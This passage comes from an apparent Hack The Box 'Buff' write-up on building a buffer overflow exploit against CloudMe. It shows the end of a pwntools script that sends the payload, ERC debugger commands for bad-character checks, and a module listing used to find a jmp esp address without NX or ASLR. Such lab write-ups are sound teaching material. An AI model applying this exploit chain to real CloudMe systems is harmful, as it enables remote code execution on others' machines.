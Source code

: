 ```python

    payload = buffer + eip + all_chars

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()   
```

I create another byte-array omitting those characters in ERC `ERC --bytearray -bytes \x00\x0a\x0d\xff` this will create another two files ByteArray_2.txt and ByteArray_2.bin

![Desktop View](/assets/img/htb/buff/erc_1.png)

I reload the program in the debugger, send the new byte-array and compare the characters with ERC
`erc --compare 0x00A3AA30 C:\users\user\desktop\bytearray_2.bin`

everything is correct 

![Desktop View](/assets/img/htb/buff/no_bad_chars_2.png)

#### finding a return instruction

I have to find an instruction that does a jmp esp so that instruction will be loaded to the eip register and make it execute the shellcode, to find a valid instruction I'll use `erc --moduleinfo -nxcompat` command to find modules that don't have nxcompat/stack execution enabled and don't have rebase 

![Desktop View](/assets/img/htb/buff/moduleinfo_1.png)

There are many modules (83) so I copy the output to a file and filter with grep the "True" string resulting in the following:

```java
$ grep -v "True" modules
------------------------------------------------------------------------------------------------------------------------ 
Process Name: CloudMe Modules total: 83 
------------------------------------------------------------------------------------------------------------------------ 
 Base          | Entry point   | Size      | Rebase   | SafeSEH  | ASLR    | NXCompat | OS DLL  | Version, Name and Path 
------------------------------------------------------------------------------------------------------------------------ 
 0x400000        0x14c0          0x431000    False      False      False      False      False      C:\Users\user\Desktop\CloudMe\CloudMe\CloudMe.exe 
 0x68a80000      0x1410          0x5d5000    False      False      False      False      False      5.9.0.0;C:\Users\user\Desktop\CloudMe\CloudMe\Qt5Core.dll 
 0x61b40000      0x1410          0x5f6000    False      False      False      False      False      5.9.0.0;C:\Users\user\Desktop\CloudMe\CloudMe\Qt5Gui.dll 
 0x69900000      0x1410          0x1c1000    False      False      False      False      False      5.9.0.0;C:\Users\user\Desktop\CloudMe\CloudMe\Qt5Network.dll 
 0x6d9c0000      0x1410          0x4c000     False      False      False      False      False      5.9.0.0;C:\Users\user\Desktop\CloudMe\CloudMe\Qt5Sql.dll 
 0x66e00000      0x1410          0x3d000     False      False      False      False      False      5.9.0.0;C:\Users\user\Desktop\CloudMe\CloudMe\Qt5Xml.dll 
 0x6eb40000      0x1410          0x24000     False      False      False      False      False      C:\Users\user\Desktop\CloudMe\CloudMe\libgcc_s_dw2-1.dll 
 0x6fe40000      0x1410          0x17e000    False      False      False      False      False      C:\Users\user\Desktop\CloudMe\CloudMe\libstdc++-6.dll 
 0x64b40000      0x1410          0x1b000     False      False      False      False      False      1,;WinPthreadGC;C:\Users\user\Desktop\CloudMe\CloudMe\libwinpthread-1.dll 
```